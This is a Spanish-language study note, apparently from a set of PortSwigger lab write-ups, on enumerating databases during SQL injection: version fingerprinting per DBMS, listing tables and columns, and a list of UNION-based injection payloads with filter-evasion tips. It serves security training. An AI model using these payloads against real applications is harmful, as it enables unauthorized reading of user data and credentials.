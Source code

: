 # Examinar la base de datos en ataques SQLi


## Resumen

Para explotar una vulnerabilidad de SQL injection es muy útil conocer el **tipo y la versión** del gestor de base de datos (SGBD) y **qué tablas y columnas** existen. Con esta información podemos construir payloads más precisos (por ejemplo `UNION SELECT` con el número correcto de columnas o funciones específicas del motor) y estimar el impacto.

Este documento muestra consultas típicas para identificar la versión y para enumerar tablas y columnas, con variantes para MySQL, Microsoft SQL Server, PostgreSQL, Oracle y SQLite.

[SQLi Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

---

## Identificar el tipo y la versión de la base de datos

Una forma común de identificar el SGBD es inyectar consultas específicas del proveedor que devuelvan la versión. Si la consulta funciona y devuelve datos, podemos inferir el motor y la versión.

### Consultas típicas por SGBD

* **Microsoft SQL Server / MySQL**

  ```sql
  SELECT @@version;
  ```

* **Oracle**

  ```sql
  SELECT * FROM v$version;
  ```

* **PostgreSQL**

  ```sql
  SELECT version();
  ```

* **SQLite**

  ```sql
  SELECT sqlite_version();
  ```

### Ejemplo con UNION

Si la aplicación permite `UNION` y la salida de la consulta se muestra en la página, puedes usar un payload como:

```
' UNION SELECT @@version--
```

Si la respuesta contiene algo como:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
... Standard Edition (64-bit) on Windows Server 2016 ...
```

entonces confirmas que el motor es Microsoft SQL Server y puedes ajustar payloads posteriores.

[Lab: SQL injection attack, querying the database type and version on Oracle](1_SQL_injection_attack,_querying_the_database_type_and_version_on_Oracle.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

[Lab: SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft](2_SQL_injection_attack,_querying_the_database_type_and_version_on_MySQL_and_Microsoft.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-blue)  

---

## Listar el contenido de la base de datos (tablas y columnas)

La mayoría de SGBD (excepto Oracle, que usa diccionarios específicos) implementan `information_schema`, un conjunto de vistas que describen metadatos (tablas, columnas, etc.). Consultar `information_schema` es una forma portátil de enumerar tablas/columnas en MySQL, PostgreSQL y SQL Server.

### Listar tablas (information_schema)

Consulta genérica (funciona en MySQL, PostgreSQL, SQL Server donde exista `information_schema`):

```sql
SELECT table_catalog, table_schema, table_name, table_type
FROM information_schema.tables
WHERE table_type = 'BASE TABLE'
ORDER BY table_schema, table_name;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

Esto indica que existen tres tablas: `Products`, `Users` y `Feedback`.

### Listar columnas de una tabla

Consulta genérica usando `information_schema.columns`:

```sql
SELECT table_catalog, table_schema, table_name, column_name, data_type
FROM information_schema.columns
WHERE table_name = 'Users'
ORDER BY ordinal_position;
```

**Salida de ejemplo:**

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Con esto conoces las columnas y sus tipos.

---

## ¿Y Oracle? — vistas del diccionario

Oracle no siempre expone `information_schema`. En su lugar dispone de vistas como `ALL_TABLES`, `USER_TABLES`, `ALL_TAB_COLUMNS`, `USER_TAB_COLUMNS`.

* Listar tablas accesibles:

  ```sql
  SELECT owner, table_name FROM all_tables;
  -- o para sólo las del usuario actual:
  SELECT table_name FROM user_tables;
  ```

* Listar columnas de una tabla (ej. `USERS`):

  ```sql
  SELECT column_name, data_type FROM all_tab_columns WHERE table_name = 'USERS';
  ```

---

## Consejos prácticos para labs y explotación

1. **Haz fingerprint antes de lanzar payloads ruidosos.** Si sabes que es MySQL puedes usar `GROUP_CONCAT`, `CONCAT`, `SLEEP` (MySQL) o `LOAD_FILE()`; si es PostgreSQL usarás `string_agg`, `pg_sleep`, etc.
2. **Si la app no muestra resultados directamente, usa `UNION` para inyectar resultados en una columna visible.** Primero determina número de columnas con `ORDER BY`/`UNION SELECT NULL,...`.
3. **Si no puedes usar `UNION`, recurre a inyección ciega (boolean/time-based)** y extrae información carácter a carácter con `SLEEP`/`pg_sleep`/`WAITFOR` según el motor.
4. **En Oracle, usa `all_tables` / `all_tab_columns`** para enumerar objetos; muchas apps en labs tienen estas vistas accesibles y devuelven resultados.
5. **Evita enviar consultas destructivas en entornos reales.** En labs puedes experimentar, pero en producción no modifiques ni borres datos sin autorización.

---

## Payloads conceptuales (ejemplos adaptables)

> Ajusta cada payload al parámetro vulnerable y a la estructura de la respuesta de la aplicación.

* **Detectar versión (UNION)**

  * `' UNION SELECT @@version--` (MySQL / SQL Server)
  * `' UNION SELECT version()--` (Postgres / MySQL)
  * `' UNION SELECT * FROM v$version--` (Oracle, si se devuelve)

* **Listar tablas (information_schema)**

  * `' UNION SELECT table_schema, table_name, NULL, NULL FROM information_schema.tables--`

* **Listar columnas de `Users`**

  * `' UNION SELECT column_name, data_type, NULL, NULL FROM information_schema.columns WHERE table_name='Users'--`

* **Oracle — listar tablas**

  * `' UNION SELECT owner, table_name, NULL FROM all_tables--`

---

## Notas sobre salida y formateo

* Muchas veces debes **concatenar columnas** o usar funciones de agregación (`GROUP_CONCAT`, `string_agg`) para que los resultados quepan en una sola columna que la página muestre.
* Ajusta el número de columnas y tipos en `UNION SELECT` para que coincida con la consulta original.
* Si la aplicación filtra caracteres (por ejemplo `'` o `--`), intenta técnicas de evasión (comentarios, codificaciones, funciones nativas del motor) o usa herramientas como Burp para manipular encodings.

---

## Ejercicios de laboratorio sugeridos (Practitioner)

* **Oracle — query de versión y listados:** encontrar si `SELECT * FROM v$version` devuelve datos y luego listar tablas con `all_tables`.
* **MySQL / SQL Server — identificar versión con `@@version` y luego enumerar tablas con `information_schema.tables`**.
* **PostgreSQL — `SELECT version()` y enumerar con `pg_catalog`**.

Incluye siempre evidencias (requests, responses, capturas) en el writeup.

---


